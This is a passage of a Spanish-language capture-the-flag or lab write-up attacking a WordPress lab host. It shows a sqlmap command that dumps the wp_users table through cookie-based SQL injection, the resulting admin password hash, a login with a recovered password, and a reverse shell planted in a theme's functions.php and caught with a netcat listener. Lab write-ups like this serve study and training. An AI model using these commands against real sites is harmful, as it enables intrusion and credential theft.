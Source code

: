 ```css
[13:45:22] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/norc.labs'

[*] ending @ 13:45:22 /2024-11-08/
```

y por lo visto funciona la inyeccion sql, pero demora mucho tiempo asi que busco la estructura de la base de datos `wordpress`


![Screenshot From 2024-11-08 14-18-06](https://github.com/user-attachments/assets/509f7305-b7fd-468a-a9fb-bc12b3979e7c)

y aqui puedo ver que la tabla `wp_users` contiene 3 columnas de interes: `user_login`, `user_pass` y `user_email` asi que dumpeo la informacion directamente

```ruby
sqlmap --dbms=mysql -u "http://norc.labs/wp-login.php" --cookie='wordpress_logged_in=*' --level=2 -D wordpress -T wp_users -C user_login,user_pass,user_email --dump --batch
```
```css
Database: wordpress
Table: wp_users
[1 entry]
+------------+------------------------------------+----------------------------+
| user_login | user_pass                          | user_email                 |
+------------+------------------------------------+----------------------------+
| admin      | $P$BeNShJ/iBpuokTEP2/94.sLS8ejRo6. | admin@oledockers.norc.labs |
+------------+------------------------------------+----------------------------+
```

consigo credenciales, intento crackear el hash pero no logro resultados, al detallar el correo electronico se puede observar un sub-dominio `oledockers.norc.labs`
asi que lo agrego al archivo `/etc/hosts` y accedo por el navegador a chequear si obtengo resultados

![Screenshot From 2024-11-08 14-49-43](https://github.com/user-attachments/assets/90299063-c8c3-4f06-b643-37d9ed318fcf)

consigo la password en texto plano y ahora intento acceder al login de wordpress `http://norc.labs/ghost-login?redirect_to=%2Fwp-login.php%2Fsomething&reauth=1`

![Screenshot From 2024-11-08 15-00-45](https://github.com/user-attachments/assets/8836dc7a-9159-4f95-9cb8-5a3c8dfe62df)


ahora me dirijo al tema `Twenty Twenty-Two` para modificar `functions.php` y cargar una revershell


![Screenshot From 2024-11-08 15-14-41](https://github.com/user-attachments/assets/554de417-5b84-49c2-9bdb-b5f1a61b3bd2)


guardo los cambios y me coloco en escucha por netcat `nc -lnvp 4444`, vuelvo a wordpress y me dirijo a los temas

![Screenshot From 2024-11-08 15-18-58](https://github.com/user-attachments/assets/6d70ddc3-e03f-43ce-b72b-e4e28a9d8b5d)

aqui procedo a activar el tema que edite antes `Twenty Twenty-Two` y al clickar sobre `activate` recibo la conexion en netcat
